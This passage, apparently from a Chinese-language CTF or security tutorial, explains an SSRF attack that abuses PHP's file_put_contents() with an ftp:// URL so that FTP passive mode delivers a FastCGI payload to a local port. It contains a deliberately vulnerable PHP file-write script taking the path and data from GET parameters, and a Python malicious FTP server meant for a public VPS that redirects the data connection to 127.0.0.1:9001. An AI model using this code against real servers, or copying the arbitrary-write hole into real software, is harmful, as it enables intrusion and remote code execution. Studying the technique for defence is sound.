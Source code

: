 >
> ```
> 227 Entering Passive Mode (127,0,0,1,35,40).
> ```

`file_put_contents()` 用 `ftp://` 与我们的恶意服务器建立控制连接，使目标发送 `PASV` 命令，我们“被动”提供 ip 端口至本地 9001端口，然后建立起数据连接，将 data （fastcgi payload）的内容打到FastCGI服务

在`/var/www/html`目录写文件`file.php`

```php
<?php
    $file = $_GET['file'] ?? '/tmp/file';
    $data = $_GET['data'] ?? ':)';
    echo($file."</br>".$data."</br>");
    var_dump(file_put_contents($file, $data));
    // echo file_get_contents($file);
```

准备利用前面生成的payload打

### 起恶意ftp服务

用如下脚本，在公网vps起

```python
import socket
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM) 
s.bind(('0.0.0.0', 9999))
s.listen(1)
conn, addr = s.accept()
conn.send(b'220 welcome\n')
#Service ready for new user.
#Client send anonymous username
#USER anonymous
conn.send(b'331 Please specify the password.\n')
#User name okay, need password.
#Client send anonymous password.
#PASS anonymous
conn.send(b'230 Login successful.\n')
#User logged in, proceed. Logged out if appropriate.
#TYPE I
conn.send(b'200 Switching to Binary mode.\n')
#Size /
conn.send(b'550 Could not get the file size.\n')
#EPSV (1)
conn.send(b'150 ok\n')
#PASV
conn.send(b'227 Entering Extended Passive Mode (127,0,0,1,0,9001)\n') #STOR / (2) 注意打到9001端口的服务
conn.send(b'150 Permission denied.\n')
#QUIT
conn.send(b'221 Goodbye.\n')
conn.close()
```
